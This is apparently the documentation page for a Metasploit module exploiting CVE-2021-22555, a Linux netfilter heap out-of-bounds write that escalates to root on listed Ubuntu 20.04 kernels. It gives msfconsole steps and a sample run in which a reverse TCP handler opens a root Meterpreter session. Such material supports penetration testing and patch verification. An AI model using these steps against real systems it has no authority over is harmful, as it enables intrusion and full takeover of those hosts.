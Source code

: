 ## Description

This module attempts to gain root privileges on Linux systems with a vulnerable Ubuntu kernel.

## Vulnerable Application
CVE-2021-22555 takes advantage of a heap out-of-bounds write when memset() is called, allowing for messages in the MSGMNI queue to reference a pointer that has been written by the exploit, resulting in code execution.  

Tested on Ubuntu 20.04:
- 5.8.0-53-generic #60~20.04.1-Ubuntu
- 5.8.0-50-generic #56~20.04.1-Ubuntu
- 5.8.0-49-generic #55~20.04.1-Ubuntu
- 5.8.0-48-generic #54~20.04.1-Ubuntu
- 5.8.0-29-generic #31~20.04.1-Ubuntu
- 5.8.0-28-generic #30~20.04.1-Ubuntu
- 5.8.0-25-generic #26~20.04.1-Ubuntu
- 5.8.0-23-generic #24~20.04.1-Ubuntu

## Verification Steps
1. Start `msfconsole`
2. Get a session
3. `use exploit/linux/local/netfilter_xtables_heap_oob_write_priv_esc`
4. `set SESSION [SESSION]`
5. `check`
6. `run`
7. You should get a new _root_ session

## Options
### SESSION

Which session to use, which can be viewed with sessions

### WritableDir

A writable directory file system path. (default: /var/tmp)

### CmdTimeout

How long to wait for a reply when executing commands on the remote system
The vulnerability was discovered by Andy Nguyen [@theflow0](https://twitter.com/theflow0).

## Scenarios
```
msf6 exploit(linux/local/netfilter_xtables_heap_oob_write_priv_esc) > run

[*] Started reverse TCP handler on 192.168.1.145:4444
[*] Running automatic check ("set AutoCheck false" to disable)
[+] The target appears to be vulnerable. Target is running kernel release 5.8.0-48-generic.
[*] Dropping pre-compiled binaries to system...
[*] Writing '/var/tmp/flTJOaqhI' (734660 bytes) ...
[*] Uploading payload...
[*] Writing '/var/tmp/ckaFBkiL' (250 bytes) ...
[*] Running payload on remote system...
[*] Sending stage (3012548 bytes) to 192.168.1.67
[+] Deleted /var/tmp/flTJOaqhI
[+] Deleted /var/tmp/ckaFBkiL
[*] Meterpreter session 2 opened (192.168.1.145:4444 -> 192.168.1.67:43322) at 2021-09-28 14:20:41 +0100
[*] Payload executed!

meterpreter > getuid
Server username: root @ ubuntu-virtual-machine (uid=0, gid=0, euid=0, egid=0)
```

In the case of receiving an error, the user can retry the exploit unless the message queue on the target has been exhausted. In that case, the system needs to be rebooted for the exploit to work again.
